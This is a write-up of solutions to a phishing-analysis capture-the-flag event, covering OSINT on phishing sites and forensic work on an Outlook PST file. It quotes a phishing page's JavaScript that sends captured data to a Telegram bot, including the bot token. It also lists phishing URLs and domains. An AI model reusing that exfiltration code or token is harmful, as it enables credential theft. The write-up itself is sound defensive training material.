



# CheckPhish CTF
CheckPhish CTF was organised at the DEFCON DELHI Group (DC9111) 0x06 Event on the 17th of December 2023. This is a compilation of my writeups for the challenges I solved.

## Group 1
The challenges in this group were based on a TXT file which listed a few repositories:
```
3ll107 Need Intel Here ^_^ 
--------------------------

https://abhi-shek1289.github.io/Netflix-clone/
https://dev-doore.pantheonsite.io/qqqdayEJKnewwt.html
https://roundcube0004.web.app/
https://ipfs.io/ipfs/bafybeieuknyq67hapflc3izsnyah6gcjkfwdkku5ufsgjqs6jlmn2nkxhq/OVERDUE_INVOICE.html
https://zha-it-we-transfer.web.app/#admin@hereinfo.com
```

Below are the challenges that followed and the way I solved them.

### Find a Phish for MY-N-TRA
- Points: 80
- Challenge Text: Maybe analyse some github link!
  
#### Solution
The first thing I did was to check the repositories listed in the TXT file. The first one was a Netflix clone hosted on Github Pages. I decided to go to the Github User's profile and check the other repositories. I found a repository named [MYNTRA-Clone](https://github.com/Abhi-shek1289/MYNTRA-Clone).
- Flag: `checkphish{github.com/Abhi-shek1289/MYNTRA-Clone}`

### WhEre Transfer
- Points: 100
- Challenge Text: Find the C2 server where the credentials are exfiltrated.

#### Solution

### Part 1: Telegram as a C2
- Points: 150
- Challenge Text: IPFS & DOOOOOM!
  
#### Solution
The fourth repository listed in the TXT file was an IPFS link. I decided to check it out. It was a phishing page for a Adobe Document Cloud login. I decided to check the source code of the page and found a URL to send messages to a telegram bot:
`var tx1="6082978649";
var tx2="6946601537:AAFR_FOZRH6usZziS5y-qTBl87J3aJqnp74";
 ur = "https://api.telegram.org/bot"+tx2+"/sendMessage?chat_id="+tx1;`

- Flag: `checkphish{AAFR_FOZRH6usZziS5y-qTBl87J3aJqnp74}`

### Part 2: Find the bot
- Points: 200
- Challenge Text: Hope you've got the telegram s3cr3t. Now get me the bot name!

#### Solution
I decided to check the Telegram API documentation to see if I could find a way to get the bot name, since the source code already had the bot token. I found a method called `getMe` which returns information about the bot.
On accessing [this endpoint](https://api.telegram.org/bot6946601537:AAFR_FOZRH6usZziS5y-qTBl87J3aJqnp74/getMe), I got the following response:
```
{"ok":true,"result":{"id":6946601537,"is_bot":true,"first_name":"NewBank","username":"NewBank_bkbot","can_join_groups":true,"can_read_all_group_messages":false,"supports_inline_queries":false}}
```

- Flag: `checkphish{NewBank_bkbot}`

## Group 2
These challenges were more focussed on forensics and OSINT. The challenges were based on a PST File ([Outlook.pst](assets/Outlook.pst)) provided to us.

### Let's Go
- Points: 10
- Challenge Text: Create a CheckPhish account and mail us here: [api.check.phish@gmail.com](mailto:api.check.phish@gmail.com) with the subject "My CheckPhish API" and your API key in the body.

#### Solution
Just do what's told!

- Flag: `checkphish{th4nKS_4_reGISter1ng!!!}`

### Outlook
- Points: 15
- Can you name the owner of the outlook? Use password 1712

#### Solution
While the PST file can be opened on outlook, if you don't have outlook installed, you can use [GoldFynch PST Viewer](https://goldfynch.com/pst-viewer/).

Just load the PST and open the inbox. The first email is addressed to the owner of the PST file.


- Flag: `checkphish{ElliotAlderson}`

### M@il
- Points: 30
- Challenge Text: Identify the mail address used to sent the phishing mail.

#### Solution
On checking all of the mails, a clearly suspicious mail can be seen (image below).


- Flag: `checkphish{no-reply@offersforstudents.online}`

### Link
- Points: 35
- Challenge Text: Can you identify the phishing link?

#### Solution
This is a bit tricky. While the link in the mail is shown as `www.microsoftoffice.com`, the actual phishing link is hyperlinked to this text and is not visible in the default view of this PST viewer.
Click on the Raw Props button on the bottom right corner of the viewer and scroll to the bottom. Click on save. This will download the raw data of the email in a bin file ([block-data-00200144.bin](assets/block-data-00200144.bin)). Simply run `cat` with the filename as an argument to see the real link.


- Flag: `checkphish{offfffiece366-offer.online}`

### L0c Acc3ss
- Points: 80
- Challenge Text: I made a super secure website and sent that to my otaku friend. But he can't open it without using special services. Do you know from where he can?

#### Solution
The word "otaku" is a strong hint towards the fact that the website can only be opened from Japan. This is also evident from the fact that we cannot connect to the server if we try to normally access the website. After trying out a couple of VPNs and connecting and reconnecting, ProtonVPN finally worked for me.

- Flag: `checkphish{Japan}`

### Sourc3
- Points: 80
- Challenge Text: Maybe you have the link... Can you access it? hahahhaha

#### Solution
After connecting to VPN in Japan and accessing the link, we get a phishing page. Viewing the source code, we can see a comment which contains the flag.
`<!---checkphish{congo_you_R_pir0_in_m4squ3rding}-->`

- Flag: `checkphish{congo_you_R_pir0_in_m4squ3rding}`
  
### Find the b1rad3r
- Points: 90
- Challenge Text: Netflix or Netlifxy or... What was it? You know my b1rad3r believes that the **SOURCE** of the **evil ditches** are... a secret.

#### Solution
This was a cryptic question. If you google evil ditches, you will stumble upon [Malebolge](https://en.wikipedia.org/wiki/Malebolge). Googling "Malebolge source" will lead you to an esoteric language called [Malbolge](https://en.wikipedia.org/wiki/Malbolge). The source code of the phishing website has something weird that seems like it's written in Malbolge. Putting that into a Malbolge interpreter gives us this link:
[https://b1rad3r-ch3ckph15h.netlify.app/](https://b1rad3r-ch3ckph15h.netlify.app/)

- Flag: `checkphish{https://b1rad3r-ch3ckph15h.netlify.app/}`

### Find me
- Points: 125
- Challenge Text: You know a lot about me now. Huh I wasn't being careful. Thankfully you don't know my email, or do you?

#### Solution
On downloading the [Microsoft365.zip](assets/Microsoft365.zip) file from the link we found in the last challenge and opening it, there is a next.php file. The email address can be found written there below.

- Flag: `checkphish{newtonproton1337@proton.me}`

### S3crEt
- Points: 150
- Challenge Text: Got a secret. Can you keep it? Swear, this one you'll better save in your pockKIT.

#### Solution
In the same zip file, there is a cgi-bin folder with the secret, but it's encoded in base64. You can google base64 to text and decode the secret.

- Flag: `checkphish{Yooouuuuu_r_4maZINgggg!!!!}`
